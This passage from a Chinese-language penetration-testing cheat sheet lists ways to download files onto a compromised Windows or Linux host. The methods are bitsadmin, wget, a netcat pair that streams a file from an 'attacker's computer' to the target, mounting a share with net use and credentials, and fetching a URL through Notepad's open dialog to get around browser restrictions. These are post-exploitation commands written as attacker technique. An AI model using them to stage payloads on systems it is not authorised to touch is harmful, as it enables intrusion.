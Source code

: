 ```
bitsadmin /transfer n http://domain/file c:\%homepath%\file

```

### Wget File Download

Wget是Linux和Windows下的一个工具，允许非交互下载。

```
wget http://example.com/file

```

### Netcat File Download

Netcat在linux上的实例：

攻击者的电脑上输入：

```
cat file | nc -l 1234

```

这个命令会将file的内容输出到本地的1234端口中，然后不论谁连接此端口，file的内容将会发送到连接过来的IP。

目标电脑上的命令：

```
nc host_ip 1234 > file

```

这条命令将连接攻击者的电脑，接受file内容保存。

### Windows Share File Download

Windows shares可以加载一个驱动器，然后用命令来复制文件。

加载远程驱动：

```
 net use x: \\127.0.0.1\share /user:example.com\userID myPassword

```

### Notepad Dialog Box File Download

如果你有权限接入一台（远程连接或者物理机）电脑，但是你用户权限不允许打开浏览器，这种方式可以让你快速的从一个URL或者UNC路径当中下载文件。

1.打开notepad 2.点击file - open

在File Name当中输入完整的URL：

![enter image description here](http://drops.javaweb.org/uploads/images/d16518f51c8aa8ff2e7cec95749f2759701c7752.jpg)

Notepad将会获取URL的内容展现出来。

### Exe to Txt, and Txt to Exe with PowerShell and Nishang
